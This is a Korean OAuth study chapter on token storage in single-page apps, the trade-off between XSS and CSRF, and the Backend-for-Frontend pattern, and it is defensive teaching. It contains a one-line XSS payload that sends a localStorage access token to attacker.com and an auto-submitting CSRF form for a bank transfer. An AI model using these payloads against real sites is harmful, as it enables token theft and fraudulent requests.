



# 토큰 저장·전송과 BFF 패턴

::: info 학습 목표
- localStorage / SessionStorage / HttpOnly Cookie 각 저장소의 공격 면을 비교할 수 있다.
- XSS와 CSRF가 토큰 저장 전략에 어떻게 상반되는 압력을 주는지 이해한다.
- BFF(Backend for Frontend) 패턴의 구조를 설계도 수준으로 그릴 수 있다.
- OAuth Browser-Based Apps 초안(draft-ietf-oauth-browser-based-apps)의 BFF 우선 권고를 안다.
:::

---

## 1. SPA 토큰 저장의 세 선택지

SPA가 OAuth/OIDC로 받은 토큰(Access Token, Refresh Token, ID Token)을 <strong>어디에 둘 것인가</strong>는 10년 넘은 논쟁이다. 브라우저가 제공하는 저장소는 크게 세 가지다.

| 저장소 | JS 접근 | 탭 간 공유 | 자동 전송 | 만료 관리 |
|--------|---------|-----------|-----------|-----------|
| localStorage | 가능 | 가능 | 안 됨(수동 헤더) | 영구 |
| SessionStorage | 가능 | 탭 단위 | 안 됨(수동 헤더) | 탭 닫으면 삭제 |
| HttpOnly Cookie | <strong>불가</strong> | 가능 | <strong>자동(Same-Origin)</strong> | 서버 설정 |

### localStorage — 편하지만 위험

```javascript
// 가장 흔한 패턴
localStorage.setItem('access_token', response.access_token);

// 요청 시
fetch('/api/data', {
  headers: { Authorization: `Bearer ${localStorage.getItem('access_token')}` }
});
```

- 장점: 구현 단순. 탭 간 공유 쉬움. CSRF 무관.
- 단점: <strong>모든 JS가 접근 가능</strong>. XSS 한 줄로 탈취.

### SessionStorage — localStorage의 축소판

- 탭을 닫으면 사라지므로 수명이 짧다.
- XSS에는 여전히 취약. JS가 접근할 수 있다는 본질은 같다.
- 탭 간 공유가 안 되는 점은 UX에 단점이자 보안에 장점.

### HttpOnly Cookie — JS는 못 읽지만 CSRF 노출

```http
Set-Cookie: session=eyJ...; HttpOnly; Secure; SameSite=Lax; Path=/
```

- 장점: JS가 접근 불가. XSS가 있어도 쿠키 자체는 탈취 못 함.
- 단점: 브라우저가 자동으로 쿠키를 실어 보내므로 <strong>CSRF 공격</strong>에 노출. `SameSite` 속성으로 완화 가능하지만 완벽하지 않음.

### 세 저장소 비교



---

## 2. XSS 시나리오 — localStorage 토큰 탈취

XSS(Cross-Site Scripting)는 공격자가 대상 사이트의 DOM에서 임의 JS를 실행시키는 공격이다. 한 번 실행되면 그 페이지에서 브라우저가 할 수 있는 모든 일을 할 수 있다.

### 탈취 코드 한 줄

```javascript
// 공격자가 피해 사이트에 주입한 JS
fetch('https://attacker.com/steal?t=' + localStorage.getItem('access_token'));
```

Refresh Token이 localStorage에 있다면 공격자는 Access Token의 수명과 무관하게 <strong>장기간 토큰을 재발급</strong>받을 수 있다.

### XSS의 공격 경로 3가지

- <strong>Reflected XSS</strong>: URL 파라미터가 필터링 없이 DOM에 삽입. `<script>` 실행.
- <strong>Stored XSS</strong>: DB에 저장된 악성 스크립트가 다른 사용자에게 렌더링.
- <strong>DOM-based XSS</strong>: `innerHTML`, `eval`, `document.write` 같은 위험 API가 사용자 입력을 받아 실행.

### 방어는 근본적으로 어렵다

모던 SPA는 React·Vue·Angular로 자동 이스케이핑을 하지만, 다음 케이스에서 구멍이 난다.

- `dangerouslySetInnerHTML`, `v-html` 사용
- 서드파티 분석 스크립트(GA, Intercom 등)의 supply chain 공격
- npm 의존성의 악성 패키지 포함(2021년 `ua-parser-js`, 2022년 `node-ipc` 등 실제 사례)

::: warning
<strong>"XSS만 막으면 된다"는 생각은 순진하다.</strong> 수백 개의 npm 의존성 중 하나가 감염되면 방어선이 무너진다. 실무에서는 "XSS가 발생한다는 전제"로 피해 범위를 최소화하는 설계가 우선이다. 그래서 HttpOnly Cookie 또는 BFF가 현실적인 권고가 된다.
:::

---

## 3. CSRF 시나리오 — Cookie의 한계

CSRF(Cross-Site Request Forgery)는 피해자가 로그인된 상태로 공격자 사이트를 방문할 때, 공격자 사이트가 <strong>피해자 쿠키를 편승해</strong> 대상 사이트에 요청을 보내는 공격이다.

### 전형적 공격

```html
<!-- attacker.com의 페이지 -->
<form action="https://bank.com/transfer" method="POST">
  <input name="to" value="attacker-account">
  <input name="amount" value="10000">
</form>
<script>document.forms[0].submit()</script>
```

피해자가 bank.com에 로그인된 상태라면 브라우저는 bank.com용 쿠키를 자동으로 실어 보낸다. 서버는 "로그인된 사용자의 정상 요청"으로 처리해 송금이 실행된다.

### SameSite 속성

쿠키에 `SameSite` 속성을 붙이면 Cross-Site 요청 시 쿠키 전송을 제한한다.

| SameSite | 동작 |
|----------|------|
| `Strict` | Cross-Site 요청에 <strong>절대</strong> 쿠키 전송 안 함 |
| `Lax` | GET/네비게이션은 허용, POST/JS fetch는 차단 (모던 브라우저 기본값) |
| `None` | 모든 Cross-Site 요청에 쿠키 전송 (요구사항: `Secure` 필수) |

### SameSite Lax가 완벽하지 않은 이유

- <strong>Subdomain 공격</strong>: `evil.example.com`에서 `api.example.com`으로는 Same-Site로 간주됨.
- <strong>GET CSRF</strong>: 상태 변경을 일으키는 GET 엔드포인트가 있다면 Lax도 허용.
- <strong>브라우저 버전 의존</strong>: 구형 브라우저는 Lax를 기본으로 하지 않거나 다르게 해석.

그래서 <strong>CSRF 토큰(Double Submit Cookie, Origin 헤더 검증 등)</strong>을 추가로 쓴다.

### XSS vs CSRF의 상반된 압력

| 관점 | localStorage 선호 | HttpOnly Cookie 선호 |
|------|-------------------|---------------------|
| XSS 방어 | 나쁨 (JS로 탈취) | 좋음 (JS 접근 불가) |
| CSRF 방어 | 좋음 (자동 전송 안 됨) | 나쁨 (SameSite + CSRF 토큰 필요) |
| 구현 난이도 | 낮음 | 중간 |
| API 서버와 분리된 도메인 | 수월 | CORS·쿠키 정책 제약 |

어느 쪽이든 <strong>단점이 분명</strong>하다. 두 공격을 동시에 잘 막는 전략이 필요하다. 그것이 BFF다.

---

## 4. BFF (Backend for Frontend) 패턴

BFF 패턴은 원래 Sam Newman이 마이크로서비스 문맥에서 제안한 아키텍처지만, OAuth 보안 문맥에서는 <strong>"브라우저는 세션 쿠키만 다루고, 실제 OAuth 토큰은 BFF 서버가 보관·사용하는"</strong> 구조를 의미한다.

### 구조



### 핵심 원칙

- <strong>브라우저는 OAuth 토큰을 절대 직접 다루지 않는다.</strong> 오직 BFF가 발급한 세션 쿠키만 본다.
- <strong>AT/RT는 BFF 서버의 세션 저장소(Redis 등)에 보관된다.</strong>
- SPA의 API 호출은 <strong>BFF를 경유</strong>한다. BFF가 세션에서 AT를 꺼내 Authorization 헤더를 덧붙여 실제 API로 프록시한다.

### 로그인 플로우



### BFF가 해결하는 것

| 위협 | BFF 없이 | BFF 적용 |
|------|---------|---------|
| XSS로 AT 탈취 | 가능 | 불가(브라우저에 AT 없음) |
| XSS로 RT 탈취 | 가능 | 불가 |
| CSRF | SameSite + CSRF 토큰 필요 | 여전히 필요하지만 피해 범위 축소 |
| 토큰 갱신 로직 | 프론트가 구현 | BFF가 처리(프론트 단순화) |
| AS의 CORS 설정 | 필요 | 불필요(서버 간 호출) |

### CSRF는 여전히 다뤄야 한다

BFF를 써도 세션 쿠키 기반이므로 CSRF 방어는 필요하다. 권장 조합:

- 세션 쿠키: `HttpOnly; Secure; SameSite=Lax`
- 상태 변경 엔드포인트: <strong>CSRF 토큰</strong> 또는 <strong>Origin/Referer 검증</strong>
- `Sec-Fetch-Site` 헤더 활용: 모던 브라우저는 요청 출처를 자동으로 표시

### 구현 시 결정 사항

- <strong>세션 저장소</strong>: 인메모리(단일 인스턴스)·Redis·DB. 서버 수평 확장을 고려해 Redis가 일반적.
- <strong>세션 ID 엔트로피</strong>: 128비트 이상 난수.
- <strong>로그아웃 처리</strong>: 세션 폐기 + (가능하면) AS revocation 엔드포인트 호출.
- <strong>BFF ↔ API 인증</strong>: BFF가 사용자 AT를 Bearer로 전달하거나, BFF 자체의 서비스 계정 토큰 + "on-behalf-of" 플로우 사용.

---

## 5. 언제 BFF, 언제 SPA 직접

BFF가 항상 답은 아니다. 추가 인프라와 운영 비용을 수반한다.

### 선택 기준

| 조건 | 권장 |
|------|------|
| 백엔드 팀이 있고 Node/Java 서버 운영 가능 | <strong>BFF</strong> |
| 정적 호스팅만 가능(S3+CloudFront 등) | SPA 직접 (대안 제한적) |
| 금융·헬스케어 규제 | <strong>BFF 필수에 가까움</strong> |
| 사용자 수 수백 명, 내부 도구 | SPA 직접 + HttpOnly Cookie + CSRF 토큰 |
| Native 모바일 앱과 JS 앱을 모두 지원 | 공유 BFF 또는 각자 PoP(DPoP) |
| 토큰이 장기 탈취되면 심각한 피해 | <strong>BFF</strong> |

### SPA 직접 유지 시의 최소 조치

BFF로 못 가는 상황이라면 다음을 최소한으로 지킨다.

- Access Token 수명 <strong>5~10분</strong>으로 짧게.
- Refresh Token은 <strong>HttpOnly Cookie</strong> 또는 <strong>저장 금지(단기 세션)</strong>.
- RT Rotation 강제.
- 가능하면 DPoP 적용.
- <strong>CSP(Content-Security-Policy)</strong> 엄격화로 XSS 표면 축소.
- 서드파티 스크립트 최소화, SRI(Subresource Integrity) 적용.

### "public client SPA with silent refresh" 안티패턴

예전엔 숨은 iframe으로 `prompt=none` 재인증해 토큰을 갱신하는 패턴이 흔했다. 현재는 다음 이유로 권장되지 않는다.

- Safari 등 브라우저가 3rd-party cookie를 막아 silent refresh 실패.
- SameSite 쿠키 정책 강화로 iframe 쿠키 전송 불가.
- Refresh Token 없이는 OAuth 2.1 권고와 어긋남.

---

## 6. OAuth WG 권고 (2024~)

IETF OAuth Working Group은 `draft-ietf-oauth-browser-based-apps`(2024년 발표 이후 활발히 갱신)에서 브라우저 기반 앱의 OAuth 구현 권고를 제시한다. 핵심 골자는 세 단계로 정리된다.

### 우선순위별 권고

1. <strong>BFF 아키텍처가 가능하다면 그것을 우선한다.</strong> 토큰을 브라우저에 노출하지 않는 것이 가장 확실한 방어다.
2. BFF가 불가능한 경우, Authorization Code + PKCE로 AT를 받고 <strong>Service Worker 또는 메모리에만</strong> 보관한다. LocalStorage는 금지.
3. Refresh Token을 브라우저에 저장해야 한다면 <strong>Rotation 필수</strong>이며 HttpOnly Cookie 형태로만 허용한다.

### 추가 권고

- Access Token 수명 짧게(5~15분).
- ID Token은 인증 완료 후 서버 전달에 한해 사용하고 장기 저장하지 않는다.
- 프론트엔드에서 AT를 <strong>로깅하거나 URL에 넣지 않는다</strong>.
- 가능하면 DPoP 적용.

### 현실 반영의 변화

2018년 이전에는 "SPA + Implicit Flow"가 표준처럼 보였다. 2020~2024년에 걸쳐 업계는 다음 궤적을 따랐다.

- Implicit Flow 권고 철회(OAuth Security BCP).
- Authorization Code + PKCE로 이행.
- Refresh Token을 SPA에서도 허용(단, Rotation 조건).
- <strong>BFF를 제1 권고로 격상</strong>.

OAuth의 현대적 보안 이해는 "토큰을 브라우저에서 최대한 치운다"는 방향으로 수렴했다. 다음 챕터에서 다룰 공격 사례들 대부분이 이 권고의 배경이 된다.

---

::: tip 핵심 정리
- SPA의 세 가지 토큰 저장소(localStorage / SessionStorage / HttpOnly Cookie)는 각각 XSS 또는 CSRF 중 한 면에 취약하며, 완전한 안전지대는 없다.
- XSS는 현대 SPA에서도 의존성 공급망 등 다양한 경로로 발생하므로, "XSS가 일어나는 전제"로 피해 범위를 축소하는 설계가 현실적이다.
- BFF 패턴은 브라우저에 세션 쿠키만, OAuth 토큰은 서버가 보관해 XSS로 인한 토큰 탈취 벡터를 원천 차단한다. CSRF 방어는 별도로 필요하다.
- BFF 도입 여부는 백엔드 운영 가능성·규제 수준·탈취 시 피해 크기로 판단한다. 불가능한 경우 짧은 AT 수명, RT Rotation, CSP 강화, DPoP 등으로 대체한다.
- IETF OAuth Browser-Based Apps 권고는 BFF를 제1 권고로 제시하며, Implicit Flow 폐지·localStorage 금지·PKCE 필수라는 일관된 방향을 유지한다.
:::

## 다음 챕터

- 이전 : [토큰 수명 관리 전략](/study/oauth/13-token-strategy)
- 다음 : [OAuth를 노리는 공격들](/study/oauth/15-attacks)
